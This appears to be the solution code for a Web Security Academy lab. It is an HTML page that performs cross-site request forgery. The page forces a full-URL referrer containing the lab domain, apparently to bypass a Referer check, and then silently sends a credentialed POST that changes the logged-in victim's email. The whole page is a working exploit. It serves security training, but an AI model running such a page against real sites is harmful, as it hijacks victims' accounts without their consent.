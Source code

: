 ```html
<html>

<head>
<meta name="referrer" content="unsafe-url">
</head>

<script>
if (window.location.href.indexOf("?q=") === -1){
window.location = window.location.href + "?q=ac101fa61e19ca07c01333b3001c00d1.web-security-academy.net"
}
</script>

<body>

<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://ac101fa61e19ca07c01333b3001c00d1.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=testtestestarnav%40test.com");

</script>

</body>

</html>
```